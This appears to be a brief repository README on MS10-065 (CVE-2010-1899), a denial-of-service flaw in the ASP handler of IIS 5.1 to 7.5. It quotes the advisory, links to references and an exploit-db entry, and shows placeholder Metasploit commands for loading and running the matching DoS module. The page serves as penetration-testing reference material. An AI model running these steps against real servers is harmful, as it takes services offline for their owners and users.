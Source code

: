 # MS10-065
```
Stack consumption vulnerability in the ASP implementation in Microsoft Internet Information Services 
(IIS) 5.1, 6.0, 7.0, and 7.5 allows remote attackers to cause a denial of service (daemon outage) via a crafted request, 
related to asp.dll, aka "IIS Repeated Parameter Request Denial of Service Vulnerability."
```

Vulnerability reference:
 * [MS10-065](https://technet.microsoft.com/library/security/ms10-065)  
 * [CVE-2010-1899](http://cve.mitre.org/cgi-bin/cvename.cgi?name=cve-2010-1899)  
 * [exp-db](https://www.exploit-db.com/exploits/15167/)  



## load the module within the Metasploit
[msf](https://www.rapid7.com/db/modules/AUXILIARY/DOS/WINDOWS/HTTP/MS10_065_II6_ASP_DOS)
```
msf > use auxiliary/dos/windows/http/ms10_065_ii6_asp_dos
msf auxiliary(ms10_065_ii6_asp_dos) > show actions
    ...actions...
msf auxiliary(ms10_065_ii6_asp_dos) > set ACTION <action-name>
msf auxiliary(ms10_065_ii6_asp_dos) > show options
    ...show and set options...
msf auxiliary(ms10_065_ii6_asp_dos) > run
```